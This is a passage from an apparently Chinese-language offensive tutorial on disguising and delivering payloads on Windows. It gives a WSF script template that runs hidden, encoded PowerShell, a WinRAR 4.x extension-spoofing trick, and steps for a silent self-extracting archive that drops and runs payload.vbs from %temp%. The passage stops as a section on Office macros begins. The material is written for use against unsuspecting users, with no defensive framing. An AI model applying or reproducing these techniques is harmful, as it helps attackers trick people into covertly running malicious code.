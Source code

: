双击运行之后就会自动调用run.vbs来执行

##### WSF

Windows Script File是WSh使用的文件类型，他可以调用Js Vbs等内置脚本语言，还可以调用perl ruby python等用户安装的语言

他通过XMl语法来解析文件。

这里看一个payload的例子

```
<?xml version="1.0" ?>
 <job id="Partially works">
   <script language="VBScript">
    <![CDATA[
      Dim objShell
      Set objShell = WScript.CreateObject("WScript.Shell")
      command = "powershell -noP -sta -w 1 -enc  base64" objShell.Run command,0
      Set objShell = Nothing
     ]]>
   </script>
 </job>
```

#### 


## Winrar

### 0x01 Winrar 4.x 漏洞
 
  通过Winrar解压成zip时，通过C32ASM修改文件后缀名是可以达成伪装效果。
  ![](http://7xicbb.com1.z0.glb.clouddn.com/go1.gif)
  
### 0x02 Winrar 自解压
　　
  将之前准备好的payload选择添加到压缩文件，钩上创建自解压文件，在
  
  高级->高级自解压选项－>常规解压路径中填％temp%
  
  然后设置中解压后运行输入
  ```
  %temp%\payload.vbs
  ```
  
  在模式中的安静模式选择全部隐藏　然后就可以生成一份静默的自解压文件
  ![](http://7xicbb.com1.z0.glb.clouddn.com/rar.gif)

## Office

### Office 宏

   office宏的设置必须选择office97-03格式或者docm即启用宏的word文档才能启用宏。
  
   新建一个支持宏的word文档，选择视图->宏->查看宏(**记得选择宏的位置为本文档　然后再点击创建**)
  